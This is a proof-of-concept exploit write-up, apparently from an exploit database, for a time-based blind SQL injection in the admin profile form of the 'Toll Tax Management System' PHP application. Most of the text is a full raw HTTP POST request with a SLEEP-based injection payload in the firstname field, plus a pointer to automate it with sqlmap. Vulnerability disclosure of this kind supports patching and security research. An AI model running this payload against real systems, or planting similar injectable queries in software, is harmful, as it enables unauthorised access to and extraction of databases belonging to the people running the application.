 # Vault

# Exploit Title: 
SQLI Blind (Toll Tax Management System)
# Date: 
22/09/2023
# Exploit Author: 

Xcode0x (Mohamed Almarri)

Twitter: @xcode0x

# Vendor Homepage: 
[https://github.com/oretnom23]()
# Software Link: 
https://www.sourcecodester.com/php/15304/toll-tax-management-system-phpoop-free-source-code.html
# Version: 
v1
# Tested on: 
debian

----
# SQLI BLIND   :

SQLI Blind in Admin panel when updating/saving admin profile.

# POC [debian]:

1- login as admin and go to profile [http://10.0.30.0:1337/admin/?page=user] .

2- set you payload in firstname or use sqlmap .

POST /classes/Users.php?f=save HTTP/1.1

Host: 10.0.30.0:1337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

X-Requested-With: XMLHttpRequest

Content-Type: multipart/form-data; boundary=---------------------------87171060839686939451677610311

Content-Length: 999

Origin: http://10.0.30.0:1337

Connection: close

Referer: http://10.0.30.0:1337/admin/?page=user

Cookie: PHPSESSID=o23q98hs6j8ut4u548ebt8epe4



-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="id"


1

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="firstname"


Adminstrator' AND (SELECT 2171 FROM (SELECT(SLEEP(5)))hgdO)-- EnP

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="middlename"


s

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="lastname"


Admin

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="username"


admin

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="password"


-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="img"; filename=""

Content-Type: application/octet-stream


-----------------------------87171060839686939451677610311--


![Drag Racing](https://github.com/xcodeOn1/SQLI-TollTax/blob/main/s1.png)

![Drag Racing](https://github.com/xcodeOn1/SQLI-TollTax/blob/main/s2.png)

 # Tested  

 Linux - debian
